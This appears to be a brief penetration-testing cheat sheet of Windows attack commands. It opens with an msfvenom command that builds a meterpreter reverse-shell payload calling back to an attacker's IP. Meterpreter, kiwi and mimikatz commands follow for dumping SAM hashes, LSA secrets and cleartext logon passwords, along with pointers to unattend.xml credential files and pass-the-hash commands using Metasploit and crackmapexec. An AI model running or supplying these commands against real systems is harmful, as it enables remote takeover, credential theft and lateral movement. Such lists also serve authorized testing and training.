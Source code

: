 # Msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$MYIP LPORT=$MYPORT -f ext > name.ext
```

# Windows Credential Dumping

```bash
##Dumping all hashes from the SAM in meterpreter
hashdump
**admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Username:Relative Identification (RID):LM hash:NTLM hash:::**

##Make sure to look for the unattend.xml file in 
C:\Windows\Panther\unattend.xml
C:\Windows\Panther\Autounattend.xml

##Decoding base64
base64 -d encoded.txt > decoded.txt

##Migrate into lsass and load kiwi
pgrep lsass
load kiwi

##Dump all credentials
creds_all

##Dump credentials from SAM for all users
lsa_dump_sam

##Sometimes we can get cleartext passwords from the LSA secrets
lsa_dump_secrets

##Dumping credentals with mimikatz
lsadump::sam
lsadump::secrets

##Displaying logon passwords with mimikatz
sekurlsa::logonpasswords

#If the system is configured to not display cleartext passwords it will display as
(null)

##Pass the hash with MSF
set SMBPass ::NTLMHASH::

##Pass the hash with psexec
crackmapexec smb $ip -u Administrator -H "::NTLM HASH::" -x "net user set password"
```
